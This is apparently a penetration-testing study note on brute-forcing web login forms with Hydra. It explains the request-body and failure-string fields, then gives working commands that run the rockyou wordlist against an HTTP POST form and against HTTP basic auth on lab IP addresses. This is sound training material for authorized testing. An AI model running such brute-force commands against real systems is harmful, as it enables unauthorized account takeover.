






# HTTP POST Login Form



## Research Default Usernames for WebApp


## Attempt to Login with Default Creds




- provide this text to Hydra as a failed login identifier.

```bash
# There are 3 required fields for an HTTP Brute force from Hydra
    - 1: the location of the login form (IE: index.php)
    - 2: specifies the request body which provides a username and password to the login form
    # What we Tried: fm_usr=admin&fm_pwd=admin
    # Turns into: fm_usr=user&fm_pwd=^PASS^
    - 3: The condition string on a failed attempt: Login failed. Invalid username or password

#Put it all together

hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.183.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid username or password"
```


## HTTP Example # 2

- All that exist is a login prompt




```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.155.201 http-get /

# Since this is controlled by basic HTTP Authentication, its very simple. We need to swap http-post-form to http-get
```
